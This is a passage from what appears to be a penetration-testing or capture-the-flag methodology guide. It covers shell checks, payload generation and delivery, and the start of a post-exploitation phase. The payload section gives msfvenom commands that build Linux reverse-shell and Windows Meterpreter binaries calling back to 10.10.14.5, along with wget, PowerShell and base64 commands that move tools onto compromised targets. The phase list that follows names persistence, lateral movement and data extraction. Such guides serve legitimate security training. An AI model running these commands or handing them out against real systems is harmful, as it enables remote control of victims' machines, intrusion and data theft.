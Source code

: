 ```bash
pwd
id  # Linux
whoami /all  # Windows
# Explanation: Verify shell stability and user context
# Expected result: Consistent command execution
```

### Step 3: Payload Generation & Delivery

**Purpose**: Create and transfer additional tools and payloads to compromised systems.

```bash
# MSFvenom Payload Generation
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=5555 -f elf > reverse_shell
# Explanation: Generate Linux reverse shell binary
# Usage: Backup shell or lateral movement

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=6666 -f exe > meterpreter.exe  
# Explanation: Generate Windows Meterpreter executable
# Usage: Advanced post-exploitation capabilities

# File Transfer Methods
python3 -m http.server 8080
# On target: wget http://10.10.14.5:8080/tool.py
# Explanation: Simple HTTP server for file downloads
# Usage: Transfer tools and payloads to Linux targets

# PowerShell Download (Windows)
powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.5:8080/tool.exe', 'C:\temp\tool.exe')"
# Explanation: Download files using PowerShell
# Usage: Transfer files to Windows targets

# Base64 Encoding Transfer
base64 tool.py > tool_b64.txt
# On target: echo "base64_content" | base64 -d > tool.py
# Explanation: Transfer files via base64 encoding
# Usage: When direct transfer methods are blocked
```

---

## 🚀 Phase 4: Post-Exploitation

### Phase Objectives

1. **Privilege Escalation**: Gain administrative/root access
2. **Persistence**: Maintain access for future sessions
3. **Lateral Movement**: Expand access to other systems
4. **Data Extraction**: Collect sensitive information
5. **Network Reconnaissance**: Map internal network from inside
